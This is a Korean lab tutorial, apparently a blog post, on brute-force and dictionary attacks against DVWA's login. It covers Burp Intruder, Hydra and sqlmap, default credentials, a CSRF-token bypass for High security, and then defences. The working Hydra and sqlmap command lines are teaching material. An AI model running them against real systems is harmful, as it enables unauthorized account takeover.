



## 실습 환경

| 항목 | 내용 |
|---|---|
| 공격 머신 | Kali Linux — `192.168.0.10` |
| 대상 서버 | Ubuntu + DVWA — `192.168.0.30/DVWA/` |
| 주요 도구 | Hydra, Burp Suite, SQLmap |

---

## 1. 웹 인증 취약점 개요

**인증(Authentication)** 은 사용자가 주장하는 신원을 확인하는 과정이다.  
웹 서비스에서 로그인은 가장 흔한 인증 지점이며, 동시에 공격자가 가장 먼저 노리는 지점이기도 하다.

### 1.1 인증 공격의 주요 유형

| 유형 | 설명 | 특징 |
|---|---|---|
| **Brute Force** | 가능한 모든 조합을 시도 | 느리지만 확실 |
| **Dictionary Attack** | 자주 쓰이는 패스워드 목록으로 시도 | 빠름, 현실적으로 많이 쓰임 |
| **Credential Stuffing** | 다른 곳에서 유출된 계정 재사용 | 이미 검증된 쌍을 사용 |
| **Default Credentials** | 기본 계정(admin/admin 등) 테스트 | 설정 실수를 노림 |
| **Password Spraying** | 흔한 패스워드 하나로 여러 계정 시도 | 계정 잠금 우회 목적 |

---

## 2. Brute Force vs Dictionary Attack

두 공격은 "모르는 패스워드를 찾는다"는 목표는 같지만 접근 방식이 다르다.

### 2.1 Brute Force (무차별 대입)

- 가능한 **모든 문자 조합**을 처음부터 끝까지 순차적으로 시도한다.
- 예: `a`, `b`, ..., `z`, `aa`, `ab`, ..., `zz`, `aaa`, ...
- 시간이 매우 오래 걸리지만, 충분한 시간만 있다면 **반드시** 패스워드를 찾아낸다.

### 2.2 Dictionary Attack (사전 공격)

- 실제로 자주 쓰이는 패스워드 목록(wordlist)을 이용해 시도한다.
- 예: `password`, `123456`, `qwerty`, `iloveyou` ...
- Brute Force보다 훨씬 빠르며, 실전에서 성공률이 높다.

### 2.3 혼합 공격 (Hybrid Attack)

- 사전 단어에 숫자·특수문자를 조합한다.
- 예: `password` → `Password1`, `p@ssw0rd`, `password2024`
- Hashcat, John the Ripper 같은 도구의 Rule-based 기능이 이를 자동화한다.



---

## 3. 취약한 인증 사례

아래와 같은 설계 결함이 있으면 인증 공격이 쉬워진다.

| 취약점 | 설명 |
|---|---|
| **계정 잠금 정책 부재** | 실패 횟수 제한 없이 무한 시도 가능 |
| **짧은 비밀번호 허용** | 4자리 이하 비밀번호는 순식간에 크래킹 |
| **기본 비밀번호 미변경** | `admin/admin`, `admin/password` 그대로 운영 |
| **Rate Limiting 없음** | 초당 수천 건의 요청도 차단 없이 처리 |
| **에러 메시지 과다 노출** | "아이디가 틀렸습니다" vs "비밀번호가 틀렸습니다" — 계정 존재 여부 노출 |

> **주의**: Rate Limiting이 없다면 Hydra 같은 도구가 초당 수백 건의 로그인을 시도해 패스워드를 빠르게 찾아낼 수 있다.
{: .prompt-warning }

---

## 4. DVWA 실습 — Security Level: Low

### 4.1 수동 테스트로 취약점 확인

1. 브라우저에서 `http://192.168.0.30/DVWA/` 접속 후 로그인한다.
2. 좌측 메뉴에서 **Brute Force** 클릭.
3. 잘못된 계정(`test / test`)을 입력하면 다음과 같은 메시지가 출력된다.

   ```
   Username and/or password incorrect.
   ```

4. 에러 메시지가 아이디·패스워드 구분 없이 통합 메시지를 출력하는지 확인한다.  
   (구분하면 계정 존재 여부가 노출되는 취약점)

---

### 4.2 실습 1: Burp Suite Intruder로 자동화

Burp Suite의 **Intruder** 기능으로 패스워드 목록 대입 공격을 수행한다.

#### 단계별 진행

**1단계: 트래픽 캡처**

1. Burp Suite를 실행하고 Proxy > Intercept를 **ON**으로 설정한다.
2. DVWA Brute Force 페이지에서 임의의 계정을 입력하고 **Login** 버튼 클릭.
3. Burp Suite에 다음과 같은 GET 요청이 캡처된다.

   ```http
   GET /DVWA/vulnerabilities/brute/?username=admin&password=test&Login=Login HTTP/1.1
   Host: 192.168.0.30
   Cookie: PHPSESSID=abcdef1234567890; security=low
   ```

**2단계: Intruder 설정**

1. 캡처된 요청을 **우클릭 → Send to Intruder**.
2. Intruder 탭 > **Positions** 탭으로 이동.
3. Attack type을 **Sniper**로 설정 (패스워드 하나만 변경).
4. `password=§test§` — `test` 부분만 `§`로 감싸서 페이로드 위치로 지정한다.

**3단계: 페이로드 설정**

1. **Payloads** 탭 이동.
2. Payload type: **Simple list**.
3. **Load** 버튼으로 wordlist 파일을 불러온다.

   ```
   /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
   ```

4. **Start attack** 클릭.

**4단계: 결과 분석**

- 응답 길이(Length)가 다른 항목이 패스워드 일치 결과다.
- `admin / password` 항목의 응답 크기가 다른 것과 다르면 성공이다.

> **팁**: Burp Suite Community Edition은 Intruder 속도가 제한된다. Cluster Bomb 설정 시 username + password 두 필드를 동시에 변경할 수 있다.
{: .prompt-tip }

---

### 4.3 실습 2: Hydra로 Brute Force

**Hydra**는 네트워크 로그인 서비스를 대상으로 하는 강력한 패스워드 크래킹 도구다.

#### HTTP GET 방식 (DVWA Low)

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.0.30 \
  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: PHPSESSID=<세션ID>; security=low"
```

#### HTTP POST 방식 (DVWA 로그인 페이지)

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.0.30 \
  http-post-form \
  "/DVWA/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

#### Hydra 주요 옵션 설명

| 옵션 | 의미 |
|---|---|
| `-l admin` | 고정 사용자명 (소문자 l) |
| `-L userlist.txt` | 사용자명 목록 파일 |
| `-p password` | 고정 패스워드 |
| `-P rockyou.txt` | 패스워드 목록 파일 |
| `-t 4` | 동시 연결 스레드 수 (기본 16) |
| `-V` | 시도 중인 계정/패스워드 상세 출력 |
| `^USER^` | 사용자명 치환 위치 |
| `^PASS^` | 패스워드 치환 위치 |
| 마지막 콜론 뒤 문자열 | 로그인 실패 시 응답에 포함되는 문자열 (실패 판별) |

> **세션 ID 확인**: Kali 브라우저에서 DVWA 로그인 후 개발자 도구(F12) > Application > Cookies에서 `PHPSESSID` 값을 복사한다.
{: .prompt-tip }

#### 예상 출력

```
[80][http-get-form] host: 192.168.0.30   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

---

### 4.4 실습 3: SQLmap으로 로그인 우회

인증 페이지에 SQL Injection 취약점이 함께 있다면, **SQLmap**으로 로그인을 우회할 수 있다.

```bash
sqlmap -u "http://192.168.0.30/DVWA/vulnerabilities/brute/?username=admin&password=test&Login=Login" \
  --cookie="PHPSESSID=<세션ID>; security=low" \
  --data="username=admin&password=test&Login=Login" \
  --batch \
  --dbs
```

> DVWA Brute Force 페이지는 SQL Injection 취약점이 별도 모듈로 분리되어 있다. 이 명령은 SQLi가 존재하는 경우를 전제로 한다.
{: .prompt-info }

---

### 4.5 실습 4: 기본 계정 테스트

DVWA에는 기본적으로 다음 계정이 세팅되어 있다.  
실제 환경에서도 이런 기본 계정이 변경되지 않은 채 남아 있는 경우가 많다.

| 사용자명 | 패스워드 |
|---|---|
| admin | password |
| gordonb | abc123 |
| 1337 | charley |
| pablo | letmein |
| smithy | password |

---

## 5. Medium / High 레벨 분석

### 5.1 Medium 레벨 — 딜레이 추가

Medium 레벨은 로그인 실패 시 **2초 딜레이**를 추가한다.  
Hydra는 기본적으로 빠른 속도로 요청하므로, 딜레이 없이 그대로 실행하면 타임아웃이 발생할 수 있다.

```bash
# -t 1: 스레드를 1개로 줄여 동시 요청을 제한
# -w 5: 응답 대기 시간 5초
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  -t 1 -w 5 \
  192.168.0.30 \
  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:incorrect:H=Cookie: PHPSESSID=<세션ID>; security=medium"
```

### 5.2 High 레벨 — CSRF Token 우회

High 레벨은 매 요청마다 새로운 **CSRF Token**을 삽입한다.  
단순 반복 공격은 토큰 불일치로 모두 실패한다.

**Burp Suite Intruder로 우회**:

1. Intruder > **Options** 탭으로 이동.
2. **Grep - Extract** 섹션에서 **Add** 클릭.
3. 응답 본문에서 `user_token` 값이 포함된 부분을 선택해 정규식으로 추출 설정.

   ```
   value='([0-9a-f]+)' name='user_token'
   ```

4. Recursive Grep를 활성화하면 이전 응답에서 추출한 토큰을 다음 요청에 자동으로 삽입한다.



---

## 6. 공격 흐름 요약



---

## 7. 방어 방법

인증 공격을 막기 위한 핵심 방어 기법은 다음과 같다.

### 7.1 계정 잠금 정책

```
5회 연속 실패 → 30분 잠금
관리자에게 알림 전송
```

- 단, 지나치게 엄격하면 **서비스 거부(DoS)** 로 악용될 수 있다.  
  모든 계정을 잠그는 **Password Spraying 방어**도 함께 고려해야 한다.

### 7.2 Rate Limiting

```
동일 IP에서 분당 5회 이상 로그인 실패 → 임시 차단
nginx / WAF 레벨에서 설정 가능
```

### 7.3 CAPTCHA

- 자동화된 봇 공격을 차단한다.
- reCAPTCHA v3는 사용자 경험을 해치지 않으면서 봇을 탐지한다.

### 7.4 MFA (Multi-Factor Authentication)

- 패스워드가 유출되더라도 추가 인증 수단이 없으면 로그인 불가.
- TOTP(시간 기반 OTP) 앱, 하드웨어 키(FIDO2) 등을 활용한다.

### 7.5 강력한 비밀번호 정책

| 항목 | 권장 기준 |
|---|---|
| 최소 길이 | 12자 이상 |
| 복잡도 | 대문자, 소문자, 숫자, 특수문자 혼합 |
| 재사용 제한 | 최근 5개 패스워드 재사용 금지 |
| 유출 패스워드 차단 | HaveIBeenPwned 같은 DB와 비교 |

### 7.6 에러 메시지 통일

```
// 취약한 메시지 (X)
"아이디가 존재하지 않습니다."
"비밀번호가 틀렸습니다."

// 안전한 메시지 (O)
"아이디 또는 비밀번호가 올바르지 않습니다."
```

---

## 8. 핵심 정리

1. **Brute Force**는 모든 조합을, **Dictionary Attack**은 자주 쓰이는 목록을 사용한다.
2. **Hydra**는 HTTP Form 방식의 로그인 대입 공격에 효과적이다.
3. **Burp Suite Intruder**는 요청을 세밀하게 제어하며, CSRF 토큰 우회도 가능하다.
4. DVWA Medium 레벨은 딜레이, High 레벨은 CSRF Token으로 추가 방어한다.
5. 방어의 핵심은 **계정 잠금 + Rate Limiting + MFA + 강력한 패스워드 정책**의 조합이다.
